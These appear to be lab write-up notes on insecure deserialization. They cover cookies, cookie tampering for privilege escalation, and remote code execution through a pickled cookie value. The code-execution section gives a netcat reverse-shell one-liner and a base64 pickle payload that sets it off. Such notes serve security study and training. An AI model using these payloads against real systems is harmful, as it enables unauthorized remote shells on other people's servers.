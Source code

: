 # Insecure Deserialization

Insecure Deserialization is a vulnerability that allows attackers abuse an application logic that has no integrity check or validation while fetching data (unstrusted data)
## Objects

Objects in OOP is a representation of thing that has:
1. State
2. Behaviour

## Deserialization

Serialization is a process of converting an object into a simpler form for transmitting between systems or networks for further processing.

Deserialization is a process of reverting the simpler form back into an object but in acceptable form by the recipient systems/apps.

## Cookies

Web apps uses HTTP/S protocol that is stateless, means a web server does not remember things like who the client is. 

Cookies is a piece of data that stores client information and is send along in the http headers which gives the server kind of ability to remember (maintain) his client.

**Cookies attributes**

![284fd0240f23a545808eb00043cd884c.png](./_resources/afede99b6da24deaa2154463b289bbc9.png)

## Practical

### Cookies

A weak session cookies can be tampered.

![39ad1311aecab8f6ae8a632a97fee116.png](./_resources/b48c77048b9f471295950eac9b43faba.png)

Or used for privilege escalation

![697e8e9f9eadba11f3562cac0be2b839.png](./_resources/766e85ee62ed48d7b8280fc8e022a9e4.png)

![ea80831c8123755f8588765fbdbd7cc5.png](./_resources/81240dc1f8bc44fb8a0e79c05629f7fe.png)

### Code execution

The weak cookie name to exploit is `encodedPayload`
![3f83422a417d75f53fb20b1e00e7925c.png](./_resources/04aee2d039ff4a678b7a9428335a49d3.png)

The core of the payload
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat IP_ADDR 4444 > /tmp/f
```

New value for `encodedPayload` from the encoded payload, malicious one.
```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOS4zMC4xMTUgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Once the page reloaded with new value, we'll have a remote shell.

![446e0b1998194816728f43c04dee9ec2.png](./_resources/96c01eac14e94755a5ebda4981da12a6.png)


![7c762571be5f28570d249cb57580b5ef.png](./_resources/2984d18d380c4c60aecf4106580d330d.png)

## Questions

![ab4cb0f210738b0acb523b59c2a2d844.png](./_resources/015b0257a14e4c99b015dfce24d7638f.png)

![9ad4a1dda1e2c94b8351ac0b6631e02b.png](./_resources/051943c51dd54d3baeec0e432c9c4988.png)

![25718e8888514a93678e8e3dc44494e7.png](./_resources/e8a74a5a1bd04ea98f931bde1f4a3b1b.png)

![db0cd622555404d46a77ae3792bd5351.png](./_resources/b50d1714f4f745a2989ecd01b2d123f3.png)